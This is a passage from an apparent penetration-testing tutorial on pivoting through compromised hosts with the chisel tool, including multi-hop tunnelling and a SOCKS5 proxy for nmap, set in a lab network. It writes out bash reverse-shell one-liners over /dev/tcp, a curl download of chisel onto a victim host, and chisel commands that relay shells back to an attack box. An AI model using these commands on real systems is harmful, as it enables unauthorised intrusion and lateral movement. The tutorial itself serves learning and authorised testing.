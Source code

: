 With a nc listener on `8017` and a bash reverse shell on the victim box like:  
`bash -c 'bash -i >& /dev/tcp/172.17.0.3/9001 0>&1'`  
we get a shell from the victim box through the pivot to the attack box  

<br />

## Multi-Hop Chisel Pivoting  

Imagine we have 3 hosts:  
`172.17.0.2`, `172.17.0.3`, and `172.17.0.4`. Our attack box has the address `172.17.0.1`  
For the sake of this example, pretend `.4` is only accessible from `.3` which is only accessible from `.2`, which we have a shell on.  
Assume we have code execution on all three boxes  

To get a shell straight from our attack box to the `.4` host, we need to pivot twice; once on the `.3` box and once on the `.2` box. We can do that by having a chisel client on the `.3` host connect to the chisel server on our attack host *through* the chisel client on the `.2` box. This is how we do that:  

Start chisel server on our attack host:  
- `./chisel server --reverse -v -p 8686`  

Start chisel client on `.2` box, forwarding connections on `9001` to our attack box:  
- `./chisel client 172.17.0.1:8686 9001:127.0.0.1:9001 &`  

Moving chisel to the `.3` host:
- Host a http server on `9001` on the attack box  
- On the `.3` host: `curl 172.17.0.2:9001/chisel -o chisel`  

Instruct the chisel client on the `.2` host to forward connections on `8687` to `8686` on the attack box. This will allow us to establish a chisel client->server connection from `.3` straight to our attack box:  
- `./chisel client 172.17.0.1:8686 8687:127.0.0.1:8686 &`  

Establish the chisel client->server connection from `.3` through `.2` pivot to attack box:  
- `./chisel client 172.17.0.2:8687 9003:127.0.0.1:9003 &`  

Start a nc listner on `9003` on our attack box  
Execute a bash shell to `172.17.0.3:9003` on the `.4`:  
- `bash -c 'bash -i >& /dev/tcp/172.17.0.3/9003 0>&1'`  

<br />

## SOCKS5 Proxy with Chisel

We can also use Chisel as a SOCKS5 Proxy

Here is a scenario;  
We have a shell on `172.17.0.3` and there is another box on the network `172.17.0.2` which we would like to `nmap`  

We can proxy our nmap scan through a chisel SOCKS5 server running on the pivot host  

Start the chisel server on the pivot with:  
`./chisel server -v -p 8687 --socks5`  

Start the chisel client on our attack box with:  
`./chisel client -v 172.17.0.3:8687 socks`  
